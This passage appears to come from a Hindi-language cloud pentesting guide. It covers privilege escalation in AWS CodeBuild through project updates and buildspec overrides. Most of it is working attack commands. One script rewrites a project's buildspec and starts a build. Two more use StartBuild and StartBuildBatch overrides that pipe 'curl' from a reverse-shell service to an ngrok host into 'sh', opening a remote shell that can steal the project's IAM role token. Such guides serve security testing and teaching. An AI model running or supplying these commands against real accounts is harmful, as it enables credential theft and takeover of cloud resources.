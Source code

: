 ```bash
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
},
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"aws/codebuild/standard:1.0\",
\"computeType\": \"BUILD_GENERAL1_SMALL\"
},
\"serviceRole\": \"arn:aws:iam::947247140022:role/codebuild-CI-Build-service-role-2\"
}"

printf "$JSON" > $REV_PATH

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build --project-name codebuild-demo-project
```
**संभावित प्रभाव:** किसी भी AWS Codebuild भूमिका में सीधा वृद्धि।

### `codebuild:StartBuild` | `codebuild:StartBuildBatch`

इनमें से किसी भी अनुमति के साथ एक नया बिल्डस्पेक के साथ एक नया बिल्ड ट्रिगर करना पर्याप्त है और परियोजना को सौंपी गई iam भूमिका के टोकन को चुरा लेना:
```bash
cat > /tmp/builspec.yml <<EOF
version: 0.2

phases:
build:
commands:
- curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh
EOF

aws codebuild start-build --project <project-name> --buildspec-override file:///tmp/builspec.yml
```
{% endcode %}
{% endtab %}

{% tab title="StartBuildBatch" %}
{% code overflow="wrap" %}
```bash
cat > /tmp/builspec.yml <<EOF
version: 0.2

phases:
build:
commands:
- curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh
EOF

aws codebuild start-build-batch --project <project-name> --buildspec-override file:///tmp/builspec.yml
```
**संभावित प्रभाव:** जुड़े AWS Codebuild भूमिकाओं के लिए सीधा उन्नति।
